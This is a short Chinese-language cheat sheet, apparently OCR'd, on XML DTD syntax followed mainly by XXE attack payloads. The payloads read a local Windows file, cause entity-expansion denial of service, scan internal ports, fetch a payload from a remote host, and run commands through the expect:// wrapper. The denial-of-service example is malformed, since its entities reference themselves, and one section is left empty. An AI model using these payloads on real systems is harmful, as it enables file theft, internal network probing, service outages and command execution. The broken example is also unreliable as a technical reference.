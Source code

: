```xml-dtd
```

**DTD声明格式**

* 内部声明

  ```xml-dtd
  <!DOCTYPE 根元素 [元素声明]>
  ```

* 引用外部

  ```xml-dtd
  <!DOCTYPE 根元素 SYSTEM "文件名">
  ```

* 引用url

  ```xml-dtd
  <!DOCTYPE 根元素 PUBLIC "url">
  ```

**DTD实体声明**

* 内部声明
* 引用外部

**XML payload**

```xml-dtd
# 任意文件读取
<?xml version="1.0"?>
<!DOCTYPE a [
        <!ENTITY b SYSTEM "file:///c:/windows/win.ini">
]>
<c>&b;</c>
# 拒绝服务
## 许多XML解析器在解析XML文档时倾向于将它的整个结构保留在内存中，解析非常慢，造成DoS
<?xml version="1.0"?>
<!DOCTYPE lolz [
 <!ENTITY lolz (#PCDATA)>
 <!ENTITY lol1 "&lol1;&lol1;...;&lol1;">
 <!ENTITY lol2 "&lol2;&lol2;...;&lol2;">
 ...
 <!ENTITY lol9 "&lol9;&lol9;...;&lol9;">
]>
<lolz>&lol9;</lolz>
# 测试开放端口
## 若返回connection refused则端口关闭
<?xml version="1.0"?>
<!DOCTYPE root [
        <!ENTITY portscan SYSTEM "http://xx.xx.xx.xx:81">
]>
<root>&portscan;</root>
# 若web可以通过url利用
<?xml version="1.0"?>
<!DOCTYPE root [
        <!ENTITY exp SYSTEM "http://xx.xx.xx.xx/payload">
]>
<root>&exp;</root>
# 命令执行
<?xml version="1.0"?>
<!DOCTYPE root [
        <!ENTITY content SYSTEM "expect://dir .">
]>
<root>&content;</root>
```
